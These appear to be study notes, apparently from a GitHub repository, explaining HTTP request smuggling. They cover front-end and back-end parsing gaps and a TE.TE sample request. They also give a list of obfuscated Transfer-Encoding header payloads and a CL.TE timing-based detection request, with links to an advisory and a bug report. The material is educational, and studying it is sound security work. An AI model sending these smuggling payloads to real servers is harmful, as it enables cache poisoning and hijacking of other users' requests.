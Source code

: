 # Core Concepts 
HTTP/1.1 allows sending multiple requests in a single HTTP connection.
requests are aligned sequentially and the servers parsers the headers to 
determine a request begins and ends and where another starts. 

This of course is harmless but with the modern natures of systems, 
distributed and communicated with each using HTTP, a semantic gap is 
created where there is a gap btn a front-end server and a back-end 
server and these two/more servers tend to parse these HTTP requests 
slightly differently. 

# On Transfer-Encoding and Content-Length
If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter MUST be ignored.
Whenever we find a way to hide the Transfer-Encoding header from one server in a chain it will fall back to using the Content-Length and we can desynchronize the whole system

# TE.TE 
A scenario where both the back end and front end server 
support Transfer-Encoding but one can be induced to ignore 
the header by obfuscating the header value. 

# Sample Request
```
POST / HTTP/1.1
Host: example.com
Content-Length: 6
Transfer-Encoding: chunked

0\r\n
G\r\n
\r\n
POST / HTTP/1.1
Host: example.com


0 (1 byte)
\r\n (carriage return + line feed, 2 bytes)
G (1 byte)
\r\n (carriage return + line feed, 2 bytes)
```

# Obfuscating Payloads 
    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked


# Detecting HTTP Request Smuggling
I'll refer to this orientation as CL.TE for short. 
We can detect potential request smuggling by sending the following request:  
    POST /about HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    Z
    Q

Thanks to the short Content-Length, the front end will forward the blue text only, 
and the back end will time out while waiting for the next chunk size. 
This will cause an observable time delay.

If both servers are in sync `TE.TE` or `CL.CL`, the request will either be rejected by the front-end or 
harmlessly processed by both systems. Finally, if the desync occurs the other way around `TE.CL`
the front-end will reject the message without ever forwarding it to the back-end, 
thanks to the invalid chunk size `Q`. This prevents the back-end socket from being poisoned.



# Further Research:
[Varnish]: https://docs.varnish-software.com/security/VSV00011/

# Real World Exploits
[Request Smuggling -> Web Cache Poisoning]: https://hackerone.com/reports/919175
